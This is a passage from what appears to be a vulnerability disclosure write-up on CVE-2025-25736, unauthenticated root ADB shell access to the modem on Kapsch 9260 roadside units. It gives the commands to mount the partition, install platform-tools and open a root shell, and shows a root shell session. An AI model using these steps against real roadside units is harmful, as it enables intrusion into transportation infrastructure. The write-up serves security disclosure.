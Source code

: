 --[ 5.5 - Unauthorized ADB Root Shell Access to Cellular Modem 
          - CVE-2025-25736

Now we're into even more low hanging fruit territory. This vulnerability 
only affects 9260 RSUs aka the CV2X units, as the 9160s do not have an 
LTE modem. 

From the local access approach, platform-tools including adb are installed 
at /mnt/c3platpersistent/opt/platform-tools/. You can just start an adb 
shell and you'll have root access to the modem. If the c3platpersistent 
partition isn't automatically mounted (I ran into that on only one of the 
units) you should first run lsblk, fdisk -l or whatever other way you want 
to find the proper partition, then mount it. Now you should have access to
it. Alternatively, the RSUs all had debs on them which can be installed via 
the kpdkg (kapsh dpkg) command. The .deb that includes platform-tools is
kapsch-persistence_1.1-beta-USDoT-QualcommCCA.deb. 

Full command: 

</PRE>
```sh
kdpkg -i kapsch-persistence_1.1-beta-USDoT-QualcommCCA.deb
```
<PRE>

Now it's accessible. 

Alternatively with physical access, you can just plug into the microUSB
port on the modem and adb shell.

</PRE>
```text
PS C:\Android\Sdk\platform-tools> .\adb.exe devices  
* daemon not running; starting now at tcp:5037  
* daemon started successfully  
List of devices attached  
91dc4XXX
device  

PS C:\Android\Sdk\platform-tools> .\adb.exe shell  
sh-3.2# 
whoami  
root  
sh-3.2# ls -lha  
total 8  
drwxr-xr-x   23 root  root  1.8K  Aug 16  2018  .  
drwxr-xr-x    3 root  root  224   Aug 16  2018  ..  
drwxr-xr-x    3 root  root  1.8K  Aug 16  2018  WEBSERVER  
drwxr-xr-x    2 root  root  15.6K Aug 16  2018  bin  
drwxr-xr-x    3 root  root  1.8K  Aug 16  2018  boot  
-rw-r--r--    1 root  root  160   Aug 16  2018  build.prop  
drwxr-xr-x    9 root  root  3.9K  Jun 19  07:43  cache  
drwxrwxr-x   19 root  root  7.0K  Jun 19  07:43  data  
drwxr-xr-x    5 root  root  5.0K  Aug 16  2018  dev  
drwxrwxr-x   35 root  root  7.0K  Aug 16  2018  etc  
drwxrwxr-x    5 43514  200   360   Jul  1 2018  firmware  
```
<PRE>
